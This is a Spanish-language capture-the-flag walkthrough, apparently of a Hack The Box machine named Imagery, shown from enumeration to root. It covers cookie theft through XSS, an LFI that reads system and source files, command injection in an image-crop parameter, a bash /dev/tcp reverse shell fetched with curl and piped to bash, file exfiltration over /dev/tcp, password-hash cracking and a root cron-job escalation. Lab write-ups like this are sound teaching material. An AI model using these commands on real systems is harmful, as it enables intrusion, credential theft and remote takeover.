








## Información General


## Table of contents

## Enumeración

La máquina Imagery tiene la ip **10.129.242.164**  

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 10.129.242.164

Nmap scan report for 10.129.242.164
Host is up (0.057s latency).
Not shown: 64728 closed tcp ports (reset), 805 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 8000 (Web)

Accedemos con el navegador y vemos una web de galería de fotos. En la barra de navegación tenemos dos secciones, una para registrarnos y otra para iniciar sesión, como no disponemos de credenciales vamos a registrarnos.

Nos registramos con el usuario **test@test.es** y accedemos.

Tenemos un panel interno en el que podemos subir imágenes y verlas en una galería.



Si revisamos el footer vemos un apartado de **Report bug**. Se trata de un panel para notificar bugs de la web.



## Explotación
### XSS

Vamos interceptar la petición de envío del reporte de bugs con **burpsuite**



La respuesta del servidor nos indica que el reporte será revisado por un usuario **admin**, por lo que podemos probar si el panel es vulnerable a **Cross-Site Scripting** (**XSS**) y en caso afirmativo, conseguir la cookie del **admin**.

Levantamos un servidor http en nuestro equipo 

```bash
python3 -m http.server 80
```
Y en el body enviamos:

```json
{
  "bugName":"bug",
  "bugDetails":""
}
```

Recibimos una petición de la máquina en nuestro servidor, por lo tanto vamos hacer que el usuario **admin** nos envíe su cookie de sesión.

```json
{
  "bugName":"bug",
  "bugDetails":""
}
```

```bash
python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.242.164 - - [13/May/2026 05:59:12] "GET / HTTP/1.1" 200 -
10.129.242.164 - - [13/May/2026 06:01:12] "GET /?c=c2Vzc2lvbj0uZUp3OWpiRU9nekFNUlBfRmM0VUVaY3BFUjc0aU1vbExMU1VHeGM2QUVQLU9vcW9kNzkzVDNRbVJkVTk0ekJFY1lMOE00UmxIZUFEcksyWVdjRllxdGVnNTcxUjBFelNXMVJ1cFZhVUM3bzFKdjhhUGVReGhxMkxfcmtIQlRPMmlyVTZjY2FWeWRCOWI0TG9CS3JNdjJ3LmFnUk0xQS5XOUtDVkhKYVVVb0M5MjFoZjdTNTl4eDF5YW8= HTTP/1.1" 200 -
```

De este modo recibimos la cookie en base64. Ahora decodificamos la cookie

```bash
echo c2Vzc2lvbj0uZUp3OWpiRU9nekFNUlBfRmM0VUVaY3BFUjc0aU1vbExMU1VHeGM2QUVQLU9vcW9kNzkzVDNRbVJkVTk0ekJFY1lMOE00UmxIZUFEcksyWVdjRllxdGVnNTcxUjBFelNXMVJ1cFZhVUM3bzFKdjhhUGVReGhxMkxfcmtIQlRPMmlyVTZjY2FWeWRCOWI0TG9CS3JNdjJ3LmFnUk0xQS5XOUtDVkhKYVVVb0M5MjFoZjdTNTl4eDF5YW8= | base64 -d

session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.agRM1A.W9KCVHJaUUoC921hf7S59xx1yao
```

Sustituimos esta nueva cookie por la que tenemos en nuestra sesión y recargamos la página.

Ya somos el usuario **admin** de la aplicación.

### LFI

En su panel podemos descargar logs de inicio de sesión de cada usuario, por lo que vamos a usar burpsuite para analizar la petición.



Vemos como se envía un parámetro por get, **log_identifier**, para apuntar a los logs, por lo que podemos probar a apuntar al **/etc/passwd**.



Confirmamos que se trata de un **Local File Inclusion** (**LFI**) y que el sistema tiene dos usuarios, **web** y **mark**.

La aplicación está usando **Werkzeug** como web server, el cual por defecto no guarda los logs en un archivo, por lo que no podemos realizar un **log poisoning** y tampoco podemos leer las **keys** de los usuarios para conectarnos por **ssh**.

Vamos a listar las variables de entorno del usuario que ejecuta la web apuntanto al archivo **/proc/self/environ**

```bash
LANG=en_US.UTF-8
PATH=/home/web/web/env/bin:/sbin:/usr/bin
USER=web
LOGNAME=web
HOME=/home/web
SHELL=/bin/bash
INVOCATION_ID=25fb4190cf1f440f9c67492872edd3e3
JOURNAL_STREAM=9:18645
SYSTEMD_EXEC_PID=1384
MEMORY_PRESSURE_WATCH=/sys/fs/cgroup/system.slice/flaskapp.service/memory.pressure
MEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=
CRON_BYPASS_TOKEN=K7Zg9vB$24NmW!q8xR0p/runL!
```

Como vemos en el **PATH** parece ser que el directorio raíz de la aplicación es **/home/web/web** por lo que podemos aprovechar el **LFI** para leer su código fuente.

Apuntamos al **/home/web/web/app.py**

```python
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc
```

Vemos que se importan los archivos de las diferentes funciones de la web y además un config, que podría tener información sobre el sistema. Así que leemos el contenido del config apuntanto al **/home/web/web/config.py**

```python
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'
```

Se está usando como base de datos el archivo **db.json**, si lo leemos descubrimos las credenciales de los usuarios de la web.

```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
  ...
}
```

Además del admin tenemos un usuario **testuser** y su contraseña encriptada, si usamos https://hashes.com/en/decrypt/hash para romperla obtenemos **iambatman**

### Command Injection

Seguimos revisando los archivos y encontramos otro con contenido interesante, **api_edit**. Para acceder a él apuntamos a **/home/web/web/api_edit.py**

```python
@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    transform_type = request_payload.get('transformType')
    params = request_payload.get('params', {})
    if not image_id or not transform_type:
        return jsonify({'success': False, 'message': 'Image ID and transform type are required.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to transform.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    if original_image.get('actual_mimetype') not in ALLOWED_TRANSFORM_MIME_TYPES:
        return jsonify({'success': False, 'message': f"Transformation not supported for '{original_image.get('actual_mimetype')}' files."}), 400
    original_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if original_ext not in ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM:
        return jsonify({'success': False, 'message': f"Transformation not supported for {original_ext.upper()} files."}), 400
    try:
        unique_output_filename = f"transformed_{uuid.uuid4()}.{original_ext}"
        output_filename_in_db = os.path.join('admin', 'transformed', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```

Tenemos el endpoint **/apply_visual_transform** con una función bastante larga. Básicamente tramita una petición por **POST** en la que valida si el usuario tiene una cuenta de **testuser**, en caso afirmativo recibe un json y usa campos de ese json en un **subprocess** para modificar características de una imagen, pero no aplica **ninguna sanetización**, por lo que nos da vía libre a inyectar comandos.

Por lo tanto, vamos a aprovechar esta vulnerabilidad.

Primero iniciamos sesión como **testuser@imagery.htb**, subimos una imagen en el apartado de **upload**, nos vamos al apartado de **Manage Groups** en **Gallery**, seleccionamos nuestra imagen e interceptamos la petición para ver el **imageId** de nuestra imagen.





Ahora con él, nos volvemos a levantar un servicio http con python y usamos burpsuite para mandar una petición al endpoint **/apply_visual_transform** con el siguiente json en el body:

```json
{
  "imageId":"0f9118d8-e411-4244-9eba-fbcb5b159c04",
  "transformType":"crop",
  "params":{
    "x":"12",
    "y":";curl 10.X.X.X;",
    "width":"12",
    "height":"12"
  }
}
```

Al enviarla recibimos la petición de la máquina en nuestro servicio http, por lo tanto ya podemos ejecutar comandos.



Ahora vamos a enviarnos una **reverse shell**, para ello nos creamos un archivo **rev.sh**

```bash
bash -i >& /dev/tcp/10.X.X.X/443 0>&1
```

Levantamos el servicio http

```bash
python3 -m http.server 80
```

Nos ponemos en escucha con **netcat**

```bash
nc -nlvp 443
```

Y ahora enviamos la petición con en el body 

```json
{
  "imageId":"0f9118d8-e411-4244-9eba-fbcb5b159c04",
  "transformType":"crop",
  "params":{
    "x":"12",
    "y":";curl http://10.X.X.X/rev.sh|bash;",
    "width":"12",
    "height":"12"
  }
}
```

Recibimos la reverse shell y entramos como el usuario **web**.

## Escalada de Privilegios
### Mark

Enumeramos el sistema y encontramos un archivo encriptado **/var/backups/web_20250806_120723.zip.aes**, nos lo pasamos a nuestro equipo.

En nuestro equipo 

```bash
nc -nlvp 100 > web_20250806_120723.zip.aes
```

En la máquina 

```bash
cat /var/backups/web_20250806_120723.zip.ae > /dev/tcp/10.X.X.X/100
```

Si aplicamos **file** para ver de que se trata vemos que ha sido creado por **pyAesCrypt**. Vamos a crear un script para poder romperlo mediante fuerza bruta.

```python
import pyAesCrypt

with open("/usr/share/wordlists/rockyou.txt", "r", encoding="utf-8", errors="ignore") as file:
    for line in file:
        password=line.strip()
        if not password:
            continue
        try:
            pyAesCrypt.decryptFile("web_20250806_120723.zip.aes", "web_20250806_120723.zip", password)
            print("Correct password --> " + str(password))
            break
        except ValueError as error:
            continue
```

Lo ejecutamos y obtenemos la contraseña **bestfriends**

El script nos desencripta ya el archivo, así que solo nos queda descomprimirlo con **unzip** y revisarlo.

Tenemos un directorio **web** y dentro varios archivos, pero si revisamos su **db.json** vemos las credenciales de los usuarios del sistema.

```json
    {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        },
        {
            "username": "web@imagery.htb",
            "password": "84e3c804cf1fa14306f26f9f3da177e0",
            "displayId": "7be291d4",
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        }
```

Volvemos a usar la web de **hashes.com** para romper las credenciales de **mark** y obtenemos su contraseña **supersmash**

### Root

Nos convertimos en **mark**

```bash
mark@Imagery:~$ ls -la
total 24
drwxr-x--- 2 mark mark 4096 Sep 22  2025 .
drwxr-xr-x 4 root root 4096 Sep 22  2025 ..
lrwxrwxrwx 1 root root    9 Sep 22  2025 .bash_history -> /dev/null
-rw-r--r-- 1 mark mark  220 Aug 20  2024 .bash_logout
-rw-r--r-- 1 mark mark 3771 Aug 20  2024 .bashrc
-rw-r--r-- 1 mark mark  807 Aug 20  2024 .profile
-rw-r----- 1 root mark   33 May 13 09:47 user.txt

mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

Podemos usar como el usuario **root** el binario de **charcol**, es una especie de terminal pero necesitamos una contraseña para usarla. 

Si listamos sus opciones vemos que podemos resetearla.

```bash
mark@Imagery:~$ sudo /usr/local/bin/charcol --help
usage: charcol.py [--quiet] [-R] {shell,help} ...

Charcol: A CLI tool to create encrypted backup zip files.

positional arguments:
  {shell,help}          Available commands
    shell               Enter an interactive Charcol shell.
    help                Show help message for Charcol or a specific command.

options:
  --quiet               Suppress all informational output, showing only warnings and errors.
  -R, --reset-password-to-default
                        Reset application password to default (requires system password verification).
```

Reseteamos la contraseña y ejecutamos la shell para activar el modo **"no password"**

```bash
mark@Imagery:~$ sudo /usr/local/bin/charcol -R

Attempting to reset Charcol application password to default.
[2026-05-13 10:31:13] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2026-05-13 10:31:27] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.

mark@Imagery:~$ sudo /usr/local/bin/charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode: 
Are you sure you want to use 'no password' mode? (yes/no): yes
[2026-05-13 10:31:45] [INFO] Default application password choice saved to /root/.charcol/.charcol_config
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.
```

Ahora si nos volvemos a lanzar una shell accedemos a charcol

```bash
mark@Imagery:~$ sudo /usr/local/bin/charcol shell

[2026-05-13 10:36:01] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.

charcol> 
```

Listamos con **help** los comandos y encontramos uno que nos puede ser útil.

```bash
 auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
```

Podemos crear una **crontab** siguiendo esa estructura, así que vamos a crear una que se ejecute cada minuto y nos mande una reverse shell de la misma forma que hemos hecho antes, empleando el **rev.sh** que habíamos creado en nuestro equipo.

Para ello, levantamos el servicio http en nuestra máquina

```bash
python3 -m http.server 80
```

Nos ponemos en escucha con **netcat**

```bash
nc -nlvp 443
```

Y creamos la **crontab** que ejecute la reverse shell

```bash
auto add --schedule "* * * * *" --command "curl http://10.X.X.X/rev.sh|bash" --name "reverse" --log-output /tmp/reverse.log

[2026-05-13 10:40:46] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2026-05-13 10:41:12] [INFO] System password verified successfully.
[2026-05-13 10:41:12] [INFO] Auto job 'reverse' (ID: a3532a06-713b-4f4a-8c58-c2bec4361014) added successfully. The job will run according to schedule.
[2026-05-13 10:41:12] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true curl http://10.X.X.X/rev.sh|bash >> /tmp/reverse.log 2>&1
```

Al minuto recibimos la reverse como **root**

```bash
root@Imagery:~# whoami
root
root@Imagery:~# ls -la /root/
total 115212
drwx------  9 root root      4096 May 13 09:47 .
drwxr-xr-x 20 root root      4096 Sep 22  2025 ..
lrwxrwxrwx  1 root root         9 Sep 22  2025 .bash_history -> /dev/null
-rw-rw-r--  1 root root        81 Jul 30  2025 .bash_profile
-rw-r--r--  1 root root      3187 Jul 30  2025 .bashrc
drwxr-xr-x  4 root root      4096 Sep 22  2025 .cache
drwxr-xr-x  2 root root      4096 May 13 10:31 .charcol
-rw-r--r--  1 root root 117907496 Aug  1  2025 chrome.deb
drwx------  3 root root      4096 Sep 22  2025 .config
drwxrwxr-x  3 root root      4096 Sep 22  2025 .cron
-rw-------  1 root root        20 Sep 19  2025 .lesshst
drwxr-xr-x  5 root root      4096 Sep 22  2025 .local
drwx------  3 root root      4096 Sep 22  2025 .pki
-rw-r-----  1 root root        33 May 13 09:47 root.txt
-rw-r--r--  1 root root        66 Sep 22  2025 .selected_editor
drwx------  2 root root      4096 Sep 22  2025 .ssh
-rw-r--r--  1 root root       165 Sep 22  2025 .wget-hsts
```